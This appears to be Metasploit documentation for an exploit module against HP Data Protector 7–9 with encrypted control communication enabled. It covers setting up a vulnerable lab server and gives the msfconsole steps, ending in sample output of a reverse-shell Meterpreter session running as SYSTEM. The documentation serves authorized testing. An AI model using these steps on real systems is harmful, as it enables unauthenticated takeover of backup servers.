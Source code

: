 HP Data Protector is an automated backup and recovery software for single-server to enterprise
environments. It provides cross-platform, online backup of data for Microsoft Windows, Unix,
and Linux operating systems.

While the server is using Encrypted Control Communication, HP Data Protector allows a remote
attacker to gain access without authentication, and gain arbitrary code execution under the
context of SYSTEM.


## Vulnerable Application

HP Data Protector versions 7, 8, and 9 are known to be affected.

hp_dataprotector_encrypted_comms was specifically tested against version 9.0.0 on Windows 2008.

## Verification Steps

**Installing HP Data Protector**

Before installing HP Data Protector, a Windows domain controller is needed. This exploit was tested
against [a Windows Server 2008 R2 SP1 domain controller](https://www.youtube.com/watch?v=Buj9oEgbRt8).

After setting up the domain controller, double-click on the HP Data Protector installer, and you
should see this screen:

![screen_1](https://cloud.githubusercontent.com/assets/13082457/15794665/99a86238-29e4-11e6-8ccd-0e09b0c8a693.png)

Click on **Install Data Protector**. And then the installer should ask you which installation type:

![screen_2](https://cloud.githubusercontent.com/assets/13082457/15794701/de31d07e-29e4-11e6-9410-0b88abe77afe.png)

Make sure to select **Cell Manager**, and click **Next**. Use all default settings.

**Enabling Encrypted Communication**

After the Setup Wizard is finished, we need to enable encrypted communication. First, open the
Data Protector GUI:

![screen_3](https://cloud.githubusercontent.com/assets/1170914/15845344/d3a84ee4-2c37-11e6-821d-fe8002c94686.png)

Click on **Clients**, and the local client from the tree. You should see the **Connection** tab on the
right, click on that.

![screen_4](https://cloud.githubusercontent.com/assets/1170914/15845351/df9929f8-2c37-11e6-9d82-8c519c030a5f.png)

Under the Connection tab, there should be an **Encrypted control communication** checkbox, make
sure that is checked. And then click **Apply**

**Using hp_dataprotector_encrypted_comms**

After the encrypted communication is enabled, you are ready to use
hp_dataprotector_encrypted_comms. Here is what you do:

1. Start msfconsole
2. Do: ```use exploit/windows/misc/hp_dataprotector_encrypted_comms```
3. Do: ```set RHOST [IP ADDRESS]```
4. Do: ```set PAYLOAD [PAYLOAD NAME]```
5. Set other options as needed
6. Do: ```exploit```, and you should receive a session like the following:

```
msf exploit(hp_dataprotector_encrypted_comms) > run

[*] Started reverse TCP handler on 172.16.23.1:4444 
[*] 172.16.23.173:5555 - Initiating connection
[*] 172.16.23.173:5555 - Establishing encrypted channel
[*] 172.16.23.173:5555 - Sending payload
[*] 172.16.23.173:5555 - Waiting for payload execution (this can take up to 30 seconds or so)
[*] Sending stage (957999 bytes) to 172.16.23.173
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.173:49304) at 2016-06-06 22:16:54 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

